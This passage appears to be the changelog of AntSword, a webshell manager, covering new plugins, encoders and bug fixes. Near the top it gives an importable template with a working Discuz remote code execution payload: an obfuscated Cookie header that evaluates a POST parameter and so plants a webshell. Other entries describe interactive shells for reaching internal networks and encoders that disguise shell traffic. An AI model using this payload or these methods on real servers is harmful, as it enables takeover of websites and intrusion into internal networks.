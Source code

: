  要不你试试导入一下下面这个 Discuz 代码执行，直接连接的模版？
 
 ```
 {"category":"default","url":"http://127.0.0.1/viewthread.php?tid=13&extra=page=1","pwd":"ant","type":"php","ip":"127.0.0.1","addr":"IANA 保留地址用于本地回送","encode":"UTF8","encoder":"chr","httpConf":{"body":{},"headers":{"Cookie":"GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui;GLOBALS[_DCACHE][smilies][replacearray]=eval(CHR(64).CHR(101).CHR(118).CHR(97).CHR(108).CHR(40).CHR(36).CHR(95).CHR(80).CHR(79).CHR(83).CHR(84).CHR(91).CHR(39).CHR(97).CHR(110).CHR(116).CHR(39).CHR(93).CHR(41).CHR(59))%3B;"}},"otherConf":{"command-path":"","ignore-https":1,"request-timeout":"5000","terminal-cache":0},"ctime":1489394564927,"utime":1533179198874,"_id":"8Uhsn1z0yeUXS5iG","note":""}
 ```

* **新增「超级终端」插件**

 虚拟终端执行命令不能交互，想要个交互式的 Shell？还想直接穿透内网？这里有个Demo了解一下？
 
 [WebShell下的交互式Shell](http://blog.evalbug.com/2018/07/25/antsword_prompt_shell/)
 
 > 该插件暂时不太稳定，鉴于有朋友想尝试一下，所以提前上了，别抱太大希望。

* **新增「BugScan 插件」插件**

 通过 Shell 快速创建 BugScan 节点，然后就可以对内网进行安全检测了。

### 其它
* 新增 ASP xxxxdog 编码器与对应 Shell 示例

 这个编码器只能用连接专属 Shell。试着阅读一下这两个脚本，对你编写自己的编码器和专属Shell会很有帮助。
* 新增 PHP `chr16`、`rot13` 编码器
* 新增 JSPX Script 示例
* 新增 ASP.Net eval Script 示例
* 新增 ASP.Net Custom Script 示例
* 修复 PHP Shell 读特殊文件无返回问题
* 修复Windows存在A盘时hang住的问题
* 新增更新 HTTP 配置 API
* 修复插件市场删除插件失败的问题
* 修复多窗口关闭错误问题
* 修复一些数据错误
* 优化清空所有缓存功能
* 优化删除缓存功能
* 优化删除数据功能
* 优化编辑数据功能
* 一些细节的调整
* 更新 FontAwesome 库到 **v4.5.0**
* 更新 electron API 到 **v1.2.3**
 > 这个版本号读起来顺

* 移除 log4js 模块，把后端日志传递到前端输出

 打开「开发者工具」，在「Console」下试着敲 `antSword["logs"]` 就可查看日志啦。

## 2016/05
### /03-30
  **进行了大范围的代码重写以及新功能增加**
  1. 插件市场包括下载管理等设计
  2. 插件执行包括模块化等架构
  3. 日志输出以及其他多出细节的调整


[medicaean-github]: https://github.com/Medicean
[peablog-github]: https://github.com/peablog
[loveshell-github]: https://github.com/loveshell
[Lupino-github]: https://github.com/Lupino
